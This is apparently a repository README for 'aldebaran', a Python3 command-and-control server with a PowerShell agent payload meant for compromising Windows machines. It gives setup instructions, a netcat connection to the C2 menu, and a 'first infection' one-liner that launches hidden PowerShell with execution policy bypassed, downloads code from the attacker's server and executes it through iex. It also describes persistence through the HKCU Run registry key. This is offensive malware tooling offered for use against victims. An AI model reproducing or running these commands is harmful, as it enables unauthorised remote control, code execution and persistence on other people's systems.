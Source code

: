 # aldebaran

Python3 C2 server and agent payload.

uses HTTP protocol with checkin. Works in env with powershell constrained language mode.

Agent code can be delivered as in memory only or as is e.g in a hta file.

darma is the server side code in python3

darpa is the agent side code in powershell

# Installation

## Requirements
install requirements with pip3


## Certificates
you will have to create valid https certs.
Self signed certs wont work with powershell. will lose constrainedlanguagemode support to ignore ssl errors so use letsencrypt

use ```certbot certonly --manual -d 220.ip-54-37-16.eu -d 220.ip-54-37-16.eu --register-unsafely-without-email ```
and copy certs in same directory as "darma/listener.py"

you will have to create valid https certs.
change cert paths in "listener.py".  When server is deamonized its path will be changed to "/"

## Change payload url

Change payload to point to your server url

## Change password of c2 server
Change bcrpyt hash in "darma/command.py" with

```
#Python3
# To generate hash
# Mind the '\n'
password = b"super secret password\n"
hashed = bcrypt.hashpw(password, bcrypt.gensalt())
print(hashed)
```
## Serverside
To start server:

```
python3 darma/main.py
```
## Victim
run agent on victim


## Attacker machine
connect to server with netcat on port 51251 with attackers machine

```
nc ip_of_server 51251
```

enter password and menu will pop up

## Logging
logging can be found @ ```/var/log/aldebaran.log```

## First infection

run the following command on victim in 'run' (win+r)

```
C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -ExecutionPolicy Bypass -nologo -noprofile -c "$command = iwr -Uri https://220.ip-54-37-16.eu/ -Method GET  -UseBasicParsing; iex $command"
```


## Persistence

When the victim checks in for the first time, an entry in ```HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run``` will be added that downloads the oneliner version of the payload

## TODO
### Error check in menu
### Install script
